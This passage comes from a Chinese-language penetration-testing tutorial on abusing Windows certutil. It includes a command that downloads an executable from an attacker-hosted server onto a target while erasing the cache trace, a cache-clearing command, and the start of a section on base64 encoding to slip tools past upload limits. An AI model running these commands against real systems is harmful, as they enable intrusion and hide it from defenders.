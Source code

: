 执行删除缓存

```bash
certutil -urlcache * delete
```

[![](assets/1701612219-64f8709584164bbe48186861bfccb489.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152052-8ddf1d7e-ca85-1.png)

这里如果嫌麻烦的话可以在下载文件的时候加上一个`delete`参数，这样就省去了后面再来清理缓存的麻烦

```bash
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe delete
```

# certutil base64 加解密

之前在实战中就碰到过需要进行内网穿透的时候，代理软件上传不到靶机的情况

[![](assets/1701612219-c9f87b1904138d9f7a2d3035e02af2ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152053-8e63f40e-ca85-1.png)

这里我上传图片测试能够上传成功

[![](assets/1701612219-e89cd1858ea02c41685ad0bddb2c8d46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152054-8ed30c4a-ca85-1.png)
